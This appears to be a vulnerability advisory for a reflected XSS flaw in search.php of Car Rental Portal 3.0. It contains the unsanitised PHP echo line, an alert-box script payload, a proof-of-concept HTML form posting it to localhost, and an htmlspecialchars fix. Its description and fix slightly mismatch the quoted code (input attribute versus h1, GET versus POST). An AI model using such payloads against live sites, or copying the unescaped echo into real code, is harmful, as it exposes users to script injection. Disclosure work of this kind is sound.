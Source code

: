 # [XSS vulnerability] found in Car Rental Portal 3.0 - (search.php)


Affected Project: **Car Rental Portal**

Web: Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/car-rental-project-php-mysql-free-download/)

Version: 3.0

Updated: 05 June 2024

Vulnerable file: /search.php

Injection parameter: `searchdata`

<br />

Size: 16.0 MB

Sha256: 8a9ad60cf5f36e2c3c4a1ce6fed7438bb458a2d2489e2a1be60dbbdd481fdf8b

<br />

## Vulnerability Description:
The issue arises because the `searchdata` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<h1>Search Result of keyword "<?php echo $_POST['searchdata'];?>"</h1>
```

<br />

## Injection Payload Tested:

We set `searchdata` to:
```
"><script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a POST request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `search.php` looks like:

<br />

![search.php](https://i.postimg.cc/mg6Vs6Vd/1.png)

<br />

As it is a POST request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:
```
<!DOCTYPE html>
<html>
<head>
    <title>Search Form</title>
</head>
<body>
    <form action="http://localhost:8000/carrental/search.php" method="POST">
        <input type="text" name="searchdata" value='"><script>alert("XSS")</script>'>
        <input type="submit" value="Search">
    </form>
</body>
</html>
```

Then we have to open it on the browser:

For example:
`file:///home/username/Desktop/test_form.html`

<br />

![payload](https://i.postimg.cc/nVYkzL09/2.png)

<br />

After submitting the payload using POST with the vulnerable parameter `searchdata` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/t4fdfnCw/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
// Retrieve the search data using GET
$searchData = isset($_GET['searchdata']) ? $_GET['searchdata'] : '';

// Escape the output to prevent XSS
$safeSearchData = htmlspecialchars($searchData, ENT_QUOTES, 'UTF-8');
```

<br />

> One Click Can Change Everything: Be Secure.
